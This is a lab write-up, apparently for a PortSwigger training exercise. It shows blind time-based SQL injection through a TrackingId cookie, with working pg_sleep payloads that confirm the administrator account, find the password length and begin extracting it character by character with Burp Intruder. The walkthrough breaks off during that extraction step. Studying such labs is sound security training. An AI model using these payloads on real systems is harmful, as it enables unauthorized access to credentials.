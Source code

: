 ![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/201497d3-fc39-442f-aacd-c8095c2d8d3e)

## Solution

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/3d1a55d4-5856-49dc-8faf-95f018c5a8ab)

Modify the TrackingId cookie, changing it to:
> TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/daf69c2f-0c84-49b1-b2fc-f2c8f1b07855)
Verify that the application takes 10 seconds to respond.

Now change it to:
> TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/b88d5a9c-470b-4110-9a17-5da6b971d204)
Verify that the application responds immediately with no time delay. This demonstrates how we can test a single boolean condition and infer the result.

Now change it to:
> TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/20b79dbd-317e-4167-9449-d65c4bd85a19)
Verify that the condition is true, confirming that there is a user called administrator.

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
> TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/22e14cef-90d4-4ad5-b0d8-4115e2c17d2d)
This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send:
> TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/3216fb5e-41f7-4c40-b445-0cd39ed4d6c7)
Then send:
> TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f2345c57-a11e-4d4e-a3f4-19d5f403afaa)
And so on. We can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), we have determined the length of the password, which is in fact 20 characters long.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

In the Positions tab of Burp Intruder, change the value of the cookie to:
> TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/defbb0c6-ce46-4359-a7c8-e24655e8d829)
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6dbbc971-ff3d-4ad6-8751-6b91a94d1590)
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a72f91d7-2e8f-4168-9e99-7ac1095396e5)
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6b6c94d3-cb4f-4828-9d01-b6412a15d425)
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f6efa164-9f18-4cd6-b70c-66a31a7d3f70)

